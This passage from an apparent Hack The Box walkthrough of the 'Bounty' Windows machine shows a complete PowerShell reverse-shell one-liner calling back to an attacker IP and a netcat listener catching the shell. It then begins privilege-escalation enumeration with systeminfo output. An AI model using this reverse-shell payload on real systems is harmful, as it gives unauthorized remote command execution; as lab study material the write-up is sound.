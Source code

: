 Obtained the reverse shell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',10099);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Bounty/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.93] 49157

PS C:\windows\system32\inetsrv> whoami
bounty\merlin
PS C:\windows\system32\inetsrv> hostname
bounty
```

# Privilege Escalation

## Local enumeration

Systeminfo:

```powershell
PS C:\Users> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          5/24/2021, 4:38:55 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,586 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,593 MB
Virtual Memory: In Use:    502 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
```